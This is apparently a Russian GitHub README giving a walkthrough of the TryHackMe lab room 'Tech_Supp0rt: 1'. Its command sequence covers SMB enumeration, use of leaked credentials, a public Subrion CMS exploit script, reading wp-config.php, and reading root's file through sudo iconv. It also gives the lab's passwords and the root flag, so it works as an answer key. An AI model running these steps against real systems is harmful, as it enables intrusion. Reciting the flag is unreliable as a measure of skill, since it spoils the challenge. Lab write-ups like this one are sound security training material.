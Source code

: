 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Tech_Supp0rt: 1](https://tryhackme.com/r/room/techsupp0rt1) 

Всего 1 заданиe:
## Задание 1
Взломайте машину и исследуйте цель.

Пожалуйста, подождите около 5 минут, пока компьютер полностью загрузится!

Примечание : тема и предупреждения о безопасности, встречающиеся в этой комнате, являются частью испытания.

### Ответьте на вопросы ниже
Что такое флаг root.txt?
```commandline
nmap <IP>
smbmap -H <IP>
smbclient //<IP>/websvr
ls
cat enter.txt
adminи:Scam2021
searchsploit subrion
searchsploit -m php/webapps/49876.py
python3 49876.py -u  http://<IP>/subrion/panel/ -l admin  -p Scam2021
ls -la /var/www/html/wordpress/ 
cat /var/www/html/wordpress/wp-config.php
#  ImAScammerLOL!123!
ssh scamsite@<IP>
sudo -l
sudo iconv -f 8859_1 -t 8859_1 /root/root.txt
```

```commandline
851b8233a8c09400ec30651bd1529bf1ed02790b
```


[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)